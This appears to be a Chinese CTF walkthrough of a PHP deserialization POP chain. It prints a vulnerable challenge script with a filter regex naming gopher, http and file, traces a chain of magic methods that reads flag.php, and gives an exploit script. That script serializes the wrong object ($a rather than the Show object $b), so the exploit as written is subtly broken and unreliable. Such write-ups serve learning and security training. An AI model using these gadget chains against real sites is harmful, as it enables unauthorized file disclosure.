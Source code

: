 #php反序列化之POP链

##魔术方法
列举：
__wakeup() //使用反序列函数unserialize()时触发

__sleep() //使用serialize时触发

__destruct() //对象销毁时触发

__construct() //用于创建对象，当实例化对象时被触发

__call() //在对象上下文中调用不可访问的方法时触发

__callStatic() //在静态上下文中调用不可访问的方法时触发

__get() //用于从不可访问的属性读取数据

__set() //用于将数据写入不可访问属性

__isset() //在不可访问的属性上调用isset()或empty()触发

__unset() //在不可访问的属性上使用unset()时触发

__toString() //把类当作字符串使用时触发

__invoke() //脚本尝试将对像调用为函数时触发

##审计代码
```
<?php
//flag is in flag.php
error_reporting(1);
class Read {
    public $var;
    
    /*Read类的一个函数*/
    public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value)); #将文件的内容以字符串的形式读取出来，并进行base64的加密
        return $text;
    }
    
    /*当以函数的方法调用一个Read类实例时，会先调用__invoke方法*/
    public function __invoke(){
        $content = $this->file_get($this->var); #将被base64加密的文件的内容赋值给$comtent
        echo $content;
    }
}

class Show{
    public $source;
    public $str;
    
    /*当初始化一个Show实例的时候，默认他的file属性为index.php*/
    public function __consturct($file='index.php'){
        $this->source = $file; #将index.php赋值给$this->source
        echo $this->source."Welcome"."<br>"; #显示index.php  Welcomee
    }
    
    /*当一个Show的类实例被当作一个字符串使用时，会。。。。*/
    public function __toString(){
        return $this->str['str']->source;//注意这里，很奇怪。调用了一个从来没有的类属性，
        //所以会调用get方法。而同时正常到$this->str['str']就返回了键值了，但是它后面又有一个取属性的操作。
        //所以想$this->str['str']本身就是一个有source属性的一个类的实例
    }
    
    /*这应该不是一个内置的魔术方法，，，*/
    public function _show(){
        if(preg_match('/gopher|http|ftp|https|dict|\.\.|flag|file/i',$this->source)){
            die('hacker');
        }
        else{
            highlight_file($this->source);
        }
    }
    
    /*当对一个Show实例进行反序列化之前调用*/
    public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i",$this->source)){
            echo "hacker";
            $this->source="index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }
    
    /*在获取一个Test的类成员的时候调用：$a->bbb*/
    public function __get($key){
        $function = $this->p;
        return $function();
    }
}


if(isset($_GET['hello']))
{
    unserialize($_GET['hello']);
}
else
{
    $show = new Show('pop1.php');
    $show->_show();
}
highlight_file(__FILE__);
?>
```


在输入hello这个变量后，调用unserialize()反序列化函数之前，先调用__wakeup()函数
```
 public function __wakeup(){
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i",$this->source)){
            echo "hacker";
            $this->source="index.php";
        }
    }
```
里面有preg_match正则匹配函数，将一个类实例化的source属性，也是另一个类的对象实例化，以字符串的形式进行遍历匹配，从而触发__toString()函数
```
 public function __toString(){
        return $this->str['str']->source;//注意这里，很奇怪。调用了一个从来没有的类属性，
        //所以会调用get方法。而同时正常到$this->str['str']就返回了键值了，但是它后面又有一个取属性的操作。
        //所以想$this->str['str']本身就是一个有source属性的一个类的实例
    }

```
方法查找到了str[]这个数组，而数组里的str是一个key键，而value值代表的是source，而str['str']需要是一个类的实例化，但是这个属性在show类中却不存在，且return访问里面的数值并返回，所以触发__get()函数
```
 public function __get($key){
        $function = $this->p;
        return $function();
    }
```
而p为一个类的对象实例化的p属性，且将属性取出来，并给$function，然后用函数的方式执行，触发__invoke()函数
```
 public function __invoke(){
        $content = $this->file_get($this->var); #将被base64加密的文件的内容赋值给$comtent
        echo $content;
    }
```
而__invoke()函数中调用了file_get()函数
```
 public function file_get($value)
    {
        $text = base64_encode(file_get_contents($value)); #将文件的内容以字符串的形式读取出来，并进行base64的加密
        return $text;
    }
```
然后给read类下的对象实例化的属性var赋值一个flag.php


构造一个exp
```
<?php

class Read{

public $var;
}

class Show{

public $source;
public $str;

}

class Test{

public $p;
}

$a=new Read();
$b=new Show();
$c=new Test();

$b->source=$b;
$b->str['str']=$c;
$c->p=$a;
$a->var='flag.php';

echo serialize($a);

?>
```
得到一个序列化的数值，然后构造payload